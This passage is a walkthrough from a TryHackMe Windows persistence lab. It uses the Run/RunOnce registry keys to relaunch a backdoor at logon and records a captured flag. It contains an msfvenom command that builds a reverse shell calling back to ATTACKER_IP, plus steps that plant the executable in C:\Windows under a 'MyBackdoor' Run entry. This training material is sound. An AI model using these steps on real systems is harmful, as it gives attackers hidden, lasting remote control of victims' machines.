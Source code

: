 And log back via RDP. You should immediately receive a connection back to your attacker's machine.

![THM flag](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/362875749378007cc447a2e47d476c9b.png)

Use your newly obtained shell to execute `C:\flags\flag10.exe` and get your flag!

Once we follow all steps, we get a shell:

![](gitbook/cybersecurity/images/Pasted%20image%2020250515172104.png)

```
C:\flags>.\flag10.exe

THM{NO_NO_AFTER_YOU}
```

### Run / RunOnce

You can also force a user to execute a program on logon via the registry. Instead of delivering your payload into a specific directory, you can use the following registry entries to specify applications to run at logon:

* `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
* `HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce`
* `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`
* `HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce`

The registry entries under `HKCU` will only apply to the current user, and those under `HKLM` will apply to everyone. Any program specified under the `Run` keys will run every time the user logs on. Programs specified under the `RunOnce` keys will only be executed a single time.

For this task, let's create a new reverse shell with msfvenom:

```shell-session
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4451 -f exe -o revshell.exe
```

After transferring it to the victim machine, let's move it to `C:\Windows\`:

```shell-session
C:\> move revshell.exe C:\Windows
```

Let's then create a `REG_EXPAND_SZ` registry entry under `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`. The entry's name can be anything you like, and the value will be the command we want to execute.

**Note:** While in a real-world set-up you could use any name for your registry entry, for this task you are required to use `MyBackdoor` to receive the flag.

![backdoored Run entry](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/c99038cd6cc9e37512edabb1f873a4da.png)

After doing this, sign out of your current session and log in again, and you should receive a shell (it will probably take around 10-20 seconds).

![THM flag](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/362875749378007cc447a2e47d476c9b.png)
